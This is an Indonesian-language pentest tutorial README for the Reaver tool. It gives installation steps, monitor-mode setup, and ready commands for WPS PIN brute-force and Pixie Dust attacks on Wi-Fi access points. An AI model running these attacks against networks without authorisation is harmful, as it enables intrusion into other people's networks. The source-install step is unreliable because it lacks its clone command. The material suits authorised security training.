 # Reaver

![Reaver](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/reaver/img/reaver.jpg)

## Instalasi

Kali Linux:

1. Menggunakan packet manager (`apt`):

   ```
   sudo apt-get update
   sudo apt install reaver aircrack-ng pixiewps
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install build-essential libpcap-dev git
   https://github.com/t6x/reaver-wps-fork-t6x
   cd reaver-wps-fork-t6x
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

1. Scan Wi-Fi WPS:

   ```
   sudo wash -i [interface]
   ```

2. Pilih Taraget
   Pastikan status `Lck` (Lock) tidak menunjukkan `YES`. Jika `YES`, artinya fitur WPS sedang terkunci (tidak bisa diserang).

3. Jalankan Serangan

   1. PIN Brute Force Attack:

      ```
      sudo reaver -i [interface] -b [bssid] -c [channel] -vv
      ```
   2. Pixie Dust Attack

      ```
      sudo reaver -i [interface] -b [bssid] -c [channel] -K -vv
      ```

## Video Demonstrasi

https://youtu.be/ftriFQwsiNU?si=Ku-meK7gUpv-RXut
